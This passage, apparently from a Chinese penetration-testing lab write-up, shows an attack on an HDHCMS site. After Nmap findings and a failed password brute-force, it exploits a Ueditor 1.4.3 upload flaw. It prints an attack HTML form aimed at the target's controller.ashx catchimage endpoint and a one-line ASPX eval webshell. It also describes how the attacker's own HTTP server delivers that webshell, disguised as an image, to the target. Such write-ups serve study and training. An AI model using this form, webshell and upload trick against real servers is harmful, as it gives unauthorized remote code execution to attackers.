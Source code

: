 
- `Nmap`扫描结果，发现`21`端口存在`FTP`服务，`999`端口存在`phpMyAdmin`。

![](./images/3.png)

尝试爆破`admin`用户的密码未果，注册普通用户查看后台，存在`Ueditor 1.4.3`，该版本存在漏洞。

下载`HDHCMS`相关源码，发现在`Admin/net/controller.ashx`中存在`Ueditor`相关内容，打`Ueditor`编辑器上传漏洞即可。

```html
# attack.html
<form action="http://www.ackmoon.com/Admin/net/controller.ashx?action=catchimage" enctype="multipart/form-data" method="POST">
 <p>shell addr: <input type="text" name="source[]" /></p>
 <input type="submit" value="Submit" />
</form>
```

```c#
<%@ Page Language="Jscript"%><%eval(Request.Item["h3"],"unsafe");%>
```

攻击机起一个`Python`服务，上传恶意图片马`Webshell`，`http://192.168.31.206:8888/shell.png?.aspx`，上传成功后会返回`Webshell`的地址。

![](./images/4.png)
